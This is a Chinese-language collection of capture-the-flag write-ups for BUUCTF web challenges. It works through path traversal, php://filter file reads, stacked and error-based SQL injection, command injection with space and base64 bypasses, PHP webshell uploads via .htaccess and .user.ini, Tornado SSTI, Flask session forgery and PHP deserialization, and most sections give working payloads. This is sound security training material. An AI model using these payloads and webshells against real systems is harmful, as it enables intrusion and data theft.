## [极客大挑战 2019]EasySQL

简单注入

## [HCTF 2018]WarmUp（文件包含、路径穿越、mb_strpos()）

右键源代码, 注释里面提示 source.php

```php
 <?php
    highlight_file(__FILE__);
   //__FILE__常量返回文件的完整路径和文件名，并亮度高显示
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
           #白名单 给whitelist设置为数组，里面包含了两种数组，左边为按键，右边为数值。
            if (! isset($page) || !is_string($page)) {
            //||表示逻辑运算符OR，非isset（）与非is_string()其中有一个是真变为真。
                echo "you can't see it";
                return false;
            }
 
            if (in_array($page, $whitelist)) {
             //$把page对比whitelist中的数组，在当中，则输出true。
                return true;
            }
 
            $_page = mb_substr( 
            //mb__substr函数在php中式截取字符串的函数
                $page,   //要截取的字符串
                0,    //起始位置
                mb_strpos($page . '?', '?')//截取的长度
               //返回？在$page.?字符串首次中出现的位置
            );
            if (in_array($_page, $whitelist)) {
            //如果在白名单中
                return true;
            }
 
            $_page = urldecode($page);//解码运算
            $_page = mb_substr(
                $_page,//要截取的字符串
                0,//起始的位置
                mb_strpos($_page . '?', '?')//截取的长度
               //返回在$page.?字符串中首次出现的位置
            );
            if (in_array($_page, $whitelist)) {
              //如果$_page出现在数组中whitelist中
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
 
    if (! empty($_REQUEST['file'])//判断file是否为非空
        && is_string($_REQUEST['file'])//判断file是否我i字符串
        && emmm::checkFile($_REQUEST['file'])//调用checkfile函数判断file返回值是否为true
    ) {
        include $_REQUEST['file'];
        //对传入的参数进行包含作用，即使丢失了文件仍然输出结果，不进行中断
        exit;
    } else {
        echo "<br>";
    }  
?>
```

hint.php 内容如下

```
flag not here, and flag in ffffllllaaaagggg
```

本来想用伪协议的, 测试了发现不行, 数组也失败了, 必须得含有 source.php 或者 hint.php 关键词

想了一会, 突然发现被 checkFile 带歪了... 因为最终 include 的是 `$_REQUEST['file]` 而不是过滤之后的内容

checkFile 里操作是先 in_array() 检测, 然后去掉 `?` 后面的内容, 然后再检测一次, 然后 urldecode, 再去掉 `?` 后的内容, 再检测一次

如果 payload 是 source.php?123 的话, 最终会变成 source.php 返回 true, 之后包含 `source.php?123` 这个文件 (不存在)

因为服务器是 Linux, 访问不存在的目录时能够通过 `../` 跳出去, 于是构造 payload 如下

```php
/source.php?file=source.php?/../../../../../../ffffllllaaaagggg
```

这里相当于是进了 `source.php?/` 这个不存在的文件夹, 然后不断通过 `..` 跳出去, 最终来到根目录读取 flag

有的 wp 里把 `?` 替换成 `%253f`, 原理差不多, 只是最后返回 true 的位置不一样

## [极客大挑战 2019]Havefun

右键注释


传参 `?cat=dog` 提交

## [ACTF2020 新生赛]Include（文件包含）

简单文件包含

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## [ACTF2020 新生赛]Exec（RCE）


简单命令执行

`; cat /flag`

## [强网杯 2019]随便注(堆叠注入)


sqlmap 是没有灵魂的

mysql 注入

order by 列数为 3

输入 select 时返回提示信息

```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

参考文章

[https://threezh1.com/2020/12/06/Mysql8%E6%96%B0%E7%89%B9%E6%80%A7%E7%BB%95%E8%BF%87SELECT%E8%BF%87%E6%BB%A4](https://threezh1.com/2020/12/06/Mysql8%E6%96%B0%E7%89%B9%E6%80%A7%E7%BB%95%E8%BF%87SELECT%E8%BF%87%E6%BB%A4)

一些思路

1. 表内注入
2. 堆叠注入
3. handler 注入
4. load_file() 直接读文件

load_file() 测试发现不行, 表内注入目前自己还没有找到相关资料...

先试一下堆叠注入

```sql
1'; show tables #
```


成功执行, 出现了 1919810931114514 这个表, 猜测 flag 应该在这里面

```sql
1'; show columns from `1919810931114514` #
```

这里的数字要加上反引号, 否则 mysql 会报错



想了下 update delete drop insert 都被过滤了好像也没有什么办法 (日志文件 getshell 还没试)

### 1)handler代替select注入

后来了解了一下发现 handler 注入的前提是支持堆查询

参考文章 [https://blog.csdn.net/JesseYoung/article/details/40785137](https://blog.csdn.net/JesseYoung/article/details/40785137)

> Handler 是 Mysql 特有的轻量级查询语句, 类似于 select, 但并不具备 select 语句的所有功能.

一个使用 handler 查询的流程如下

```sql
handler tableName open;
handler tableName read first;
handler tableName read next;
...
handler tableName close;
```

payload

```sql
1'; handler `1919810931114514` open;handler `1919810931114514` read first #
```


在 wp 中看到其它几种解法, 思路挺好的

### 2)换表名

> 将 words 和 1919810931114514 表互换

alter 语句介绍 [https://www.runoob.com/mysql/mysql-alter.html](https://www.runoob.com/mysql/mysql-alter.html)

```sql
alter table `words` rename to `words1`;
alter table `1919810931114514` rename to `words`;
alter table `words` change `flag` `id` varchar(100) character utf8_general_ci NOT NULL;
```

查询语句是 `select * from words where id = xx`, 如果没有 id 字段的话会报错

不确定 `character utf8_general_ci NOT NULL;` 是否必须, 本地测试发现没有这段也能运行...

之后提交 `1'or 1=1 #`, 因为 id 的内容是 flag, 查不到, 需要构造永真条件

修改表名的另一种写法

```sql
rename table A to B;
```

### 3）预编译+concat拼接

> 预编译 + concat 拼接

mysql 预编译的介绍 [https://www.cnblogs.com/micrari/p/7112781.html](https://www.cnblogs.com/micrari/p/7112781.html)

预编译的语句是字符串的形式, 所以可以使用 concat 等字符串操作函数进行拼接来绕过 select 的过滤

```sql
set @a = concat("sel","ect flag from `1919810931114514`");
prepare st from @a
execute st;
```

这里的语句还能用 hex 编码绕过

试了一下返回 `strstr($inject, "set") && strstr($inject, "prepare")`

不过 `strstr()` 区分大小写, 改一下就行了, sql 语句对大小写不敏感

## [SUCTF 2019]EasySQL（猜语句、改管道符set sql_mode=pipes_as_concat;）


过滤了 union and or sleep update insert delete from handler flag

数字型注入, 支持堆查询, 但有长度限制, 最长39个字符

```sql
1;show tables;
```


查不了列名, 因为过滤了 Flag

于是决定看一下 wp...

> 这道题目需要我们去对后端语句进行猜测, 有点矛盾的地方在于其描述的功能和实际的功能似乎并不相符, 通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有 ||, 也就是 `select 输入的数据||内置的一个列名 from 表名`, 进一步进行猜测即为 `select post 进去的数据||flag from Flag` (含有数据的表名, 通过堆叠注入可知), 需要注意的是, 此时的 || 起到的作用是 or 的作用.

```php
sql = "select $_POST['query'] || flag from Flag";
```

**第一种解法: 提交 `*,1`**

看到 `||` 想到了之前命令执行的 payload

```bash
cmd1 || cmd2 # 如果 cmd1 正常执行就不会执行 cmd2
```

SQL 中逻辑运算符 `||` 的判断跟上面的一样, 如果前面的条件为 true 就不会执行后面的条件 (因为此时整个条件已经满足 true), 如果前面的条件为 false, 则会进一步判断后面的条件, 进而检查整个条件是 true 还是 false

因为直接 select 字符串不方便理解, 这里本地用 sleep 为例

```sql
mysql> select * from Flag;
+------------+
| flag       |
+------------+
| flag{test} |
+------------+
1 row in set (0.00 sec)

mysql> select 1 || sleep(1) from Flag;
+---------------+
| 1 || sleep(1) |
+---------------+
|             1 |
+---------------+
1 row in set (0.00 sec)

mysql> select 0 || sleep(1) from Flag;
+---------------+
| 0 || sleep(1) |
+---------------+
|             0 |
+---------------+
1 row in set (1.01 sec)
```

可以看到前面为 1 的时候, 因为整个条件本身已经满足 true, 所以不会执行 sleep(1), 而前面为 0 的时候, 则需要进一步确认整个条件的真假性, 所以执行了后面的 sleep(1) (返回 0 的原因是 sleep 函数没有返回值)

理解了之后再看第一种解法

```sql
select *,1 || flag from Flag;
```

把语句分开看, 逗号前面是 `*`, 而逗号后面的 `1 || flag` 是一个整体, 这个整体返回的就是 true

这就类似于平常查表的时候执行 `select name,age from students`, 通过逗号来查询多个字段

为啥是 `*,1` 而不能是 `1,*`? 后者在 mysql 里执行会报错

把语句拼接一下是下面这样

```sql
select 1,* || flag from Flag;
```

`* || flag` 本身就是个错误的写法, 通配符无法表示真假性

最后再说一下, payload 的关键点在于 `*`, 而后面的数字不影响执行的结果, 改成其它值也是可以的

**第二种解法**

```sql
1;set sql_mode=pipes_as_concat;select 1
```

这是在已经知道了 SQL 语句中含有 `||` 的前提下, 通过更改 mysql 的配置来改变 `||` 的功能

光看单词也很容易理解, 将 `||` 功能从逻辑运算符更改为拼接字符串

```sql
mysql> set sql_mode=pipes_as_concat;
Query OK, 0 rows affected (0.00 sec)

mysql> select 1||2||3||4||5;
+---------------+
| 1||2||3||4||5 |
+---------------+
| 12345         |
+---------------+
1 row in set (0.00 sec)
```

这样之后执行 `select 1 || flag from Flag` 的时候, 也会把 flag 显示出来 (拼接)


## [极客大挑战 2019]Secret File(文件包含，php://filter伪协议，strstr())

右键源代码和跳转绕了一大圈...

抓包得到地址如下

```
http://6c8f24ad-3e52-41fe-b1bb-3e938ff9eb12.node4.buuoj.cn:81/secr3t.php
```

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

文件包含

```
http://6c8f24ad-3e52-41fe-b1bb-3e938ff9eb12.node4.buuoj.cn:81/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## [GXYCTF2019]Ping Ping Ping(RCE读文件，绕过多解法)


过滤的比较多, 懒得写了...

试了一个 payload 读 index.php

```bash
127.0.0.1;cat$IFS$9index.php
```

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

### 解法一：tar命令压缩打包当前目录，下载查看

刚好前几天用了下 tar... 然后空格可以用 `$IFS$9` 绕过, 并且 `.` 没有被过滤

```bash
127.0.0.1;tar$IFS$9-cf$IFS$9a.tar$IFS$9.
tar -cf a.tar .
这条命令 tar -cf a.tar . 的含义是创建一个名为 a.tar 的压缩包，其中包含当前目录（.表示当前目录）下的所有文件和子目录。
解释每个部分的含义：
    tar: 是 tar 命令的基本命令。
    -c: 表示创建一个新的压缩包。
    -f a.tar: 指定创建的压缩包的文件名为 a.tar。
    .: 表示当前目录。这是指定要打包的文件和目录的位置。

因此，这个命令的效果是将当前目录下的所有文件和子目录打包成一个名为 a.tar 的压缩包。需要注意，这只是一个打包操作，并没有进行压缩。如果要进行压缩，可以在命令中添加相应的选项，比如使用 gzip 进行压缩的话，可以使用 tar -czf a.tar.gz .。
```

下载打开解压得到 flag

之后又想到一种方法

### 解法二：反引号执行

```bash
127.0.0.1;cat$IFS$9`ls`
```

在 wp 中看到的其它解法

### 解法三：变量拼接或base64编码读文件命令，管道符解码到输出bash执行

```bash
127.0.0.1;a=g;cat$IFS$1fla$a.php
127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

利用变量拼接或者 base64 绕过检测

## [极客大挑战 2019]LoveSQL（报错注入，长度限制）

简单 sql 注入

xpath 报错

```sql
123' and updatexml(1,concat(0x7e,(select password from l0ve1ysq1 where username='flag'),0x7e),1) #
```

有长度限制, 需要配合 substr

floor() + rand() 报错

```sql
123' union select count(*),2,concat(':',(select password from l0ve1ysq1 where username='flag'),':',floor(rand()*2))as a from information_schema.tables group by a #
```

这个没有长度限制

## [极客大挑战 2019]Knife（RCE）

简单命令执行

## [极客大挑战 2019]Http(XFF)

referer user-agent xff 头伪造

## [极客大挑战 2019]Upload（文件上传，<script language="php"绕过检测，phtml后缀绕过）

后缀为黑名单过滤, 同时检测了文件头和文件内容

文件内容不能包含 `<?`, 使用 script 标签绕过

```html
GIF89A
<script language="php">system($_GET[1]);</script>
```

改后缀为.phtml 上传


## [ACTF2020 新生赛]Upload（文件上传，phtml后缀绕过）

上传后文件自动重命名, 后缀为黑名单过滤

方法同上, 利用 phtml

## [极客大挑战 2019]BabySQL（sql注入，双写绕过）

简单 sql 注入

关键字被替换为空, 双写绕过

```sql
1' ununionion selselectect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql #
```

## [极客大挑战 2019]PHP（反序列化，__wakeup绕过）


下载 www.zip 打开

index.php 部分代码

```php
<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>
```

class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

反序列化

```php
<?php

class Name{
    private $username = 'admin';
    private $password = '100';
}

echo urlencode(serialize(new Name()));

?>
```

然后把属性数量改一下, 提交得到 flag

## [RoarCTF 2019]Easy Calc 重点！！！（RCE,php变量传递字符串解析的特性,无参数RCE）

右键源代码


calc.php(实际过滤的内容远不止这里waf写的这么多)

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
    
    
payload:注意问号后有一个空格，这就是利用变量传递的字符串解析特性
? num=phpino()
? num=var_dump(scandir(chr(47)))相当于? num=system(ls /)。chr(47)=" / "。
? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))==>>file_get_contents(/f1agg)相当于? num=system(cat /f1agg)
```


提交 `scandir(current(localeconv()))` 显示 403


估计是 waf

num 参数只要输入字母就会返回 403, 组数组绕过失败... 但换成其它参数名没有被拦截

看了 wp 才知道需要利用 PHP 字符串解析的特性

参考文章 [https://www.freebuf.com/articles/web/213359.html](https://www.freebuf.com/articles/web/213359.html)

> PHP 将传入的参数解析为变量时, 会对变量名进行如下操作
>
> 1. 将非法字符转换为下划线
> 2. 去除开头的空白字符


其实跟之前的下划线转换原理差不多, 因为 waf 检测的是 `?num=xxx`, 我们只需要构造 `? num=xxx` (num 前有一个空格), 就能够绕过 waf

再结合一下无参数函数进行 rce


读取 flag


这题还有另外一种解法, **HTTP 走私攻击**

参考文章

[https://paper.seebug.org/1048/](https://paper.seebug.org/1048/)

[https://xz.aliyun.com/t/6654](https://xz.aliyun.com/t/6654) (文章里面还有上一种解法的另外一种 payload, 这里就不详细写了)

目前广为流传的一种方法是写两次 `Content-Length` 头


爆了 400 错误, 但是后面能正常显示 phpinfo

不过总感觉不太像... 后来想想可能是因为这个

> 在 RFC7230 的第3.3.3节中的第四条中, 规定当服务器收到的请求中包含两个 `Content-Length`, 而且两者的值不同时, 需要返回400错误.

而有些服务器却不会严格的实现该规范

如果照这个方面想的话, 这个 waf 应该是一个反向代理的 waf, 通过畸形的 header 头使反代服务器爆出 400 错误, 但是真正的后端服务器因为没有严格实现规范导致可以正常接收并处理请求

## [ACTF2020 新生赛]BackupFile（弱类型转换）


手工试出来 index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

弱类型转换

```
http://dacc2c9f-1fe9-44a7-a79a-6bff32b539cc.node4.buuoj.cn:81/?key=123
```

## [极客大挑战 2019]BuyFlag（弱类型转换）

右键源代码


访问 pay.php 右键源代码


还是弱类型

提交 404aaa 之后提示 `You must be a student from CUIT !!!`

Cookie 把 `user=0` 改成 `user=1`, post 再传入 `money=100000000`

 然后提示数字太长了... 改成 `money[]=100000000` 就行


## [护网杯 2018]easy_tornado（SSTI,{{handler.settings}}）


url 格式如下

```
http://211ce077-6c56-419a-afb4-c599c568ac43.node4.buuoj.cn:81/file?filename=/flag.txt&filehash=0e24e12b6089646e7071af7883716075
```

flag.txt

```
/flag.txt
flag in /fllllllllllllag
```

welcome.txt

```
/welcome.txt
render
```

hints.txt

```
/hints.txt
md5(cookie_secret+md5(filename))
```

考点应该是 ssti, 我们需要找到 cookie_secret 的值, 然后和 /fllllllllllllag 拼接构造 filehash, 这样才能正常查看 flag 内容

filehash 随便改了改, 跳转到了报错页面


存在 ssti, 但过滤了很多, 只有 `.` 没有被过滤

在官方文档里搜了一下 cookie_secret

[https://tornado-zh.readthedocs.io/zh/latest/index.html](https://tornado-zh.readthedocs.io/zh/latest/index.html)


看起来好像是 tornado 内部的变量, 不是用户自定义的

想到了 flask 的 config, tornado 应该也有类似的变量

继续在文档里搜索 `cookie_secret`, 没搜到...

换个思路, 去 tornado 的源码里面搜, 发现了下面这一行


`self.application.settings` 有点可疑, 继续搜试试


往上拉找到这个方法对应的类


RequestHandler 类, 但是利用 ssti 查看 `RequestHandler.settings` 的内容会报错

然后又去文档里找了找


发现 handler 可以查看当前的 RequestHandler 对象

于是 payload 如下

```
http://211ce077-6c56-419a-afb4-c599c568ac43.node4.buuoj.cn:81/error?msg={{handler.settings}}
```


md5 加密

```python
from hashlib import md5

cookie_secret = 'a1d17d00-1e5f-4911-925c-390d3b41d6b4'
filename = '/fllllllllllllag'
print(md5(cookie_secret+md5(filename).hexdigest()).hexdigest())
```

访问得到 flag

```
http://211ce077-6c56-419a-afb4-c599c568ac43.node4.buuoj.cn:81/file?filename=/fllllllllllllag&filehash=19e76ada6795b98e2d5615423e5a2efa
```

## [HCTF 2018]admin(flask session伪造，ᴬdmin  unicode绕过strtolower)

这题一开始当成了 csrf , 重置密码改成 123 然后成功登进去以为自己做出来了

最后看 wp 才知道 admin 的密码就是 123...

登录框输入单引号报错, 但好像并没有注入

右上角可以注册用户


于是注册了个 test


post 可以发文章, 但是看不了

change password 的页面右键查看源代码有一处注释


到 GitHub 下载, 打开后发现是用 flask 做的

/app/routes.py 里有 session


/app/config.py 里能看到 secret_key


/app/templates/index.html


搜了一下发现 flask 可以伪造 session

>  flask 的 session 是存储在客户端 cookie 中的，而且 flask 仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而 flask 并没有提供加密操作，所以其 session 的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。

参考文章 [https://cbatl.gitee.io/2020/11/15/Flask-session/](https://cbatl.gitee.io/2020/11/15/Flask-session/)

利用脚本 [https://github.com/noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)


替换 cookie 后刷新页面得到 flag


看了 wp 发现还有另一种思路

> Unicode 欺骗

参考文章 [https://www.anquanke.com/post/id/164086](https://www.anquanke.com/post/id/164086)

原因在于使用了自定义的 strlower 函数


定义如下

```python
from twisted.words.protocols.jabber.xmpp_stringprep import nodeprep
....

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

requirements.txt 里的 twisted 库版本

```
Twisted==10.2.0
```

百度搜到的相关内容都是 wp...

唯一一篇可能有联系的原始文章现在也已经打不开了

[https://tw.saowen.com/a/72b7816b29ef30533882a07a4e1040f696b01e7888d60255ab89d37cf2f18f3e](https://tw.saowen.com/a/72b7816b29ef30533882a07a4e1040f696b01e7888d60255ab89d37cf2f18f3e)

大意就是使用旧版本的 twisted 库中的 nodeprep 进行转换时, 会把一些 unicode 字符转换成对应的正常大写字符

例如使用两次 strlower 的结果,  `ᴬ  -> A -> a`

本地安装这个库的旧版本一直有问题, 可能是 Python 版本太新了

unicode 字符 [https://unicode-table.com/en/search/?q=small+capital](https://unicode-table.com/en/search/?q=small+capital)


我们注册 `ᴬdmin` 用户, 注册时会进行一次 strtolower, 实际上存入数据库的是 Admin 用户


然后通过 `ᴬdmin` 登录, 登陆的时候出现也是把 post 的数据 strtolower 一下


之后修改密码, 因为修改密码的时候是把 `session['name']` 的内容 strtolower, 而前者的内容实际上是注册后已经 strtolower 了一次的 `Admin`, 第二次 strtolower 之后变成 admin, 修改的也就是 admin 的密码

最后登录得到 flag


## [BJDCTF2020]Easy MD5(MD5注入，MD5攻击)


抓包查看返回头


`md5($pass, true)`, 其实就是生成了二进制的摘要, 之前也遇到过

```
ffifdyop
129581926211651571912466741651878684928
```

这两个 payload md5 加密后生成的二进制字符里包含万能密码

输入提交


右键查看源代码


md5 0e 漏洞

```
http://b7c25771-6bbd-44e3-ac5d-5ead5de06174.node4.buuoj.cn:81/levels91.php?a=QNKCDZO&b=240610708
```

之后又跳转到一个页面


强类型比较, 0e 开头的字符串不会被自动转换成科学计数法了

但是可以换成数组绕过, 之前也遇到过


## [ZJCTF 2019]NiZhuanSiWei（伪协议运用，传输内容（data://,php://filter,php://input））

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

php://input 好像用不了, 先用 php://filter 读文件试试

```
http://919e7ced-6038-437a-891f-49bebb325a20.node4.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

useless.php

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

反序列化

```
http://919e7ced-6038-437a-891f-49bebb325a20.node4.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

右键查看得到 flag


## [MRCTF2020]你传你🐎呢(文件上传，.htaccess，cookie保证上传的文件夹不变)

文件上传


测试发现过滤了 php phtml 等后缀, 但是 .htaccess 能够上传

```html
<IfModule mime_module>
AddType application/x-httpd-php .jpg
</IfModule>
```


思路就很明显了, 之后再传一个包含一句话的 jpg 就行

不过每次上传的路径都不一样...

观察了一下发现每次上传后会给你设置一个 PHPSESSID, 如果你继续拿着这个 cookie 上传的话文件夹就不会变


最后蚁剑链接查看 flag

## [极客大挑战 2019]HardSQL（异或^结合xpath报错注入,left,right取字符）

and or 空格和等于号都被过滤了

空格绕过用注释, `%0a` `%09` 等等都不行

看了 wp 才知道是利用异或 `^` + xpath 报错注入

参考文章 [https://blog.csdn.net/V1040375575/article/details/111712453](https://blog.csdn.net/V1040375575/article/details/111712453)

异或的特性

> a ^ b, 如果 a, b 两个值不相同, 则结果为 1, 如果 a, b 两个值相同, 则结果为 0

mysql 的异或有两个操作符, `^` 和 `XOR`, 前者为按位异或, 后者为逻辑异或

按位异或会把数字或者强制类型转换的字符串 (跟 PHP 类似) 转换成二进制, 然后每一位进行逻辑异或, 最后得出来一个新的数字

逻辑异或只是单纯的根据两边的真假性来得出结果

下面是一个利用异或来进行盲注的示例

```mysql
mysql> use test;
Database changed
mysql> select * from flag;
+------+------------+
| id   | flag       |
+------+------------+
|    1 | flag{test} |
+------+------------+
1 row in set (0.00 sec)

mysql> select * from flag where id=1^(length(database())=4);
Empty set (0.00 sec)

mysql> select * from flag where id=1^(length(database())=3);
+------+------------+
| id   | flag       |
+------+------------+
|    1 | flag{test} |
+------+------------+
1 row in set (0.00 sec)
```

第一条语句后面是 `1^1=0`, 表中没有 id=0 的记录, 所以返回空

第二条语句后面是 `1^0=1`, 故能查询到 id=1 的记录并返回

不过这题没有利用到异或具体的性质, 只是用来替代 and 作为连接符

```
http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(database()),0x7e))%23
&password=123
```


substr mid 被过滤了, 利用 left 和 right 从两边截取 31 位字符, 然后手工拼接一下

```
http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(select(left(password,31))from(H4rDsq1)where(username)like('flag')),0x7e))%23
&password=123

http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(select(right(password,31))from(H4rDsq1)where(username)like('flag')),0x7e))%23
&password=123
```

## [SUCTF 2019]CheckIn（文件上传，.user.ini）

考察 .user.ini

上传文件后发现目录下存在一个 index.php

于是先上传一个 1.txt 内容如下 (`<?` 被过滤了)

```html
GIF89a
<script language="php">eval($_REQUEST[1]);</script>
```

再上传 .user.ini

```ini
GIF89a
auto_append_file="1.txt"
```


最后访问 /uploads/c47b21fcf8f0bc8b3920541abd8024fd/index.php

连接得到 flag


## [MRCTF2020]Ez_bypass(md5强比较)

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

md5 数组绕过和弱类型转换

```
http://f1edb72b-630a-48cf-bab2-ee13086b4ee5.node4.buuoj.cn:81/?gg[]=123&id[]=456

post: passwd=1234567a
```


## [网鼎杯 2020 青龙组]AreUSerialze(反序列化，弱类型比较，php7对类属性的访问修饰符不敏感)

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

思路是令 op 的值为 2 并且指定 filename 为 flag.php 从而读取 flag 的内容

但是 __destruct 前有个判断, 会更改 op 的值并清空 content

然而里面的  `if($this->op === "2")` 用的是 `===`, 也就是强类型比较

process 里面的 `else if($this->op == "2")` 用的是 `==`, 弱类型比较

所以我们只需要把 op 设置成 int 类型的就能绕过了

payload 如下

```php
<?php

class FileHandler {

    public $op = 2;
    public $filename = 'flag.php';
    public $content = '';

}

echo urlencode(serialize(new FileHandler()));
?>
```

如果访问修饰符是 protected 和 private 的话, 生成的字符串有 `%00`, 会被 is_valid 检测到

不过服务器的 PHP 版本是 7.4.3, 对访问修饰符不敏感, 全都改成 public 即可

```
http://022ddad7-d409-497d-9954-a37f4c6962f3.node4.buuoj.cn:81/?str=O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A7%3A%22content%22%3Bs%3A0%3A%22%22%3B%7D
```


## [GXYCTF2019]BabySQli（union联合查询蔡解列数，union联合查询构造临时数据，欺骗登录）


